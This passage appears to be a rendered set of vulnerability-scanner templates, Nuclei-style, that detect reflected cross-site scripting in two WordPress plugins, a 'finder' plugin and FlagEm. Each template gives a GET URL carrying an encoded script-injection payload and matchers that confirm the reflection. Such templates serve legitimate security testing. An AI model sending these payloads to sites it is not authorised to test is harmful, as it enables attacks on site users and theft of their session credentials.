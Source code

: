 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/finder/index.php?by=type&dir=tv&order=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress FlagEm - Cross-Site Scripting

## Description

- WordPress FlagEm plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/FlagEm/flagit.php?cID=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**
